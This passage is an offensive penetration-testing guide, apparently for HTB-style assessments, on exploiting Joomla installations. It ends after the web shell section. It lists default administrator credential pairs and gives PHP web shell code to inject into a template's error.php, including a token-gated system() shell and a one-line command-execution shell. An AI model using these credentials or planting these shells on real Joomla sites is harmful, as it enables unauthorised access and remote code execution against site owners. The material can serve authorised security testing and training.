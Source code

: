 # ⚔️ Joomla Attacks & Exploitation

> **🎯 Objective:** Master the exploitation of Joomla installations through template manipulation, core vulnerabilities, extension attacks, and post-exploitation techniques to achieve remote code execution and system compromise.

## Overview

With over 2.7 million Joomla installations worldwide and **426 CVE-registered vulnerabilities**, Joomla presents significant attack surfaces for penetration testers. Unlike WordPress's plugin-heavy ecosystem, Joomla attacks often focus on **template manipulation**, **core vulnerabilities**, and **component-specific exploits**. This guide covers systematic exploitation from initial access to complete system compromise.

**Attack Vector Distribution:**
- **🎯 Template Manipulation** - Primary RCE via admin access (Most Common)
- **🔍 Core Vulnerabilities** - Directory traversal, authentication bypass (Medium Impact)
- **⚡ Extension Exploits** - Component-specific vulnerabilities (Variable Impact)  
- **🗄️ Database Exploitation** - Configuration disclosure and injection (High Impact)

---

## Template Manipulation for RCE

### Administrative Access Exploitation

#### Gaining Admin Panel Access

**Prerequisites:**
- Valid administrator credentials (from enumeration/brute force)
- Access to `/administrator/` backend interface
- Understanding of Joomla template structure

**Common Access Scenarios:**
```bash
# Default credential exploitation
admin:admin
administrator:password
admin:joomla

# Leaked credentials from:
# - Configuration backups
# - Social engineering
# - Password reuse attacks
# - Previous breaches
```

#### Template Customization Attack

**Method 1: Error Page Injection (Recommended)**

```php
# Navigate to: Templates → Customise → Select Template → error.php

# 1. Professional Web Shell (Recommended for assessments)
<?php
if (isset($_GET['cmd']) && $_GET['token'] === 'htb_assessment_2024') {
    system($_GET['cmd']);
}
?>

# 2. One-liner for Quick Testing
<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>

```